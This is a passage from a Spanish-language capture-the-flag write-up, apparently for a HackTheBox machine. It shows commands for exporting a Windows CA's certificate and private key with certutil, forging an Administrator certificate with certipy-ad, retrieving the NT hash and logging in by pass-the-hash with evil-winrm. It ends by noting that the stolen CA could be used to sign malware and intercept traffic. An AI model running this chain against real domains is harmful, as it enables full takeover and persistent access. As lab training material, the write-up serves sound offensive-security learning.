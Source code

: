 ```bash
certutil -store My
```

![image](https://github.com/user-attachments/assets/10a26bad-7d84-4941-abf5-281d50bd7b6d)


observamos 3 certificados vamos intentar hacernos con el certificado `Certificate-LTD-CA`, asi que crearemos un directorio en la raiz e intentaremos extraer el certificado a dicho directorio

```bash
mkdir tempx
```

```bash
certutil -exportPFX my "Certificate-LTD-CA" C:\tempx\export.pfx
```

![image](https://github.com/user-attachments/assets/16d221e4-af49-41c1-92ec-bdf6fc615203)

vemos que fue posible extraer el certificado, por ultimo nos descargamos a nuestra maquina el certificado para asi poder crear otros certificados falsos

```bash
download export.pfx
```

![image](https://github.com/user-attachments/assets/473d1d2a-e8f9-4bad-aae3-654475d2b81a)

ahora generamos un certificado para Administrator

```bash
certipy-ad forge -ca-pfx export.pfx -upn Administrator -out pwn.pfx
```

![image](https://github.com/user-attachments/assets/3eef4a6d-190a-4665-8ec9-566442890c54)

luego generamos el hash NT 

```bash
certipy-ad auth -pfx pwn.pfx -ns 10.10.11.71 -dc-ip 10.10.11.71 -domain CERTIFICATE.HTB
```

![image (1)](https://github.com/user-attachments/assets/3b7cc3ea-bdc2-4d48-9ba5-0b7793956045)


con esto ya podemos hacer `Pass-The-Hash` via `Winrm`

```bash
evil-winrm -i 10.10.11.71 -u 'Administrator' -H '*********************'
```

![image (2)](https://github.com/user-attachments/assets/43a4b3b9-22c8-4294-b9d4-69214c43f05c)


tenemos el control total del sistema con la CA bajo nuestro poder! esto nos permitiria muchas acciones maliciosas como firmar malware y asi evitar detección por políticas de restricción de software, includo podriamos inteceptar trafico cifrado si el cliente confia en la CA y tambien nos proporciona persistencia en el sistema sin depender de password 
